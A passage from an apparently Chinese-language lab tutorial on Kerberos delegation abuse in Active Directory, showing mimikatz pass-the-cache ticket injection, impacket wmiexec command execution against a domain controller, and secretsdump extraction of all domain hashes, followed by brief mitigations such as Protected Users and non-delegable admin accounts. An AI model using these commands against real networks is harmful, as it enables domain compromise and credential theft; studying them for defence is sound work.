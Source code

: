 执行之后会在当前目录生成一个缓存文件Administrator.ccache
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208211804-70145b4c-4a75-1.png)
然后用mimikatz进行ptc（pass the cache），将缓存注入当前会话中
```
kerberos::ptc Administrator.ccache
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208212218-07ca043c-4a76-1.png)
klist查看缓存的票据
```
klist
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208212405-47a4808c-4a76-1.png)
访问域控
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208212458-6714dfb6-4a76-1.png)
执行命令的话我们可以用impacket系列或者powershell都可以

wmiexec
```
set KRB5CCNAME=Administrator.ccache

wmiexec.exe -no-pass -k administrator@WIN-QFPHJSM1L7G.qiyou.com -dc-ip 192.168.141.145
```
![](https://xzfile.aliyuncs.com/media/upload/picture/20200208212926-06b9b3f2-4a77-1.png)
导出域控上所有用户以及主机的hash
```
set KRB5CCNAME=Administrator.ccache

secretsdump.exe -no-pass -k WIN-QFPHJSM1L7G.qiyou.com
```
请求过程和上面的cifs是一样的只不过是把cifs换krbtgt而已，所以这里就不抓包演示了

## 
高权限用户没有在特殊要求之下设置为不可委派
如图
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211095642-c04916c2-4c71-1.png)
为了防止凭据被盗微软推出了Protected Users组，适用于Windows Server 2016，Windows Server 2012 R2、 Windows Server 2012
![](https://xzfile.aliyuncs.com/media/upload/picture/20200211100913-7fa14af2-4c73-1.png)
关于Protected Users组成员的特点请参考[软手册](https://docs.microsoft.com/zh-cn/windows-server/identity/ad-ds/manage/how-to-configure-protected-accounts#BKMK_AddtoProtectedUsers)就不多赘述了
提高服务用户密码强度，防止黑客通过Kerberoasting等手段对口令进行暴力破解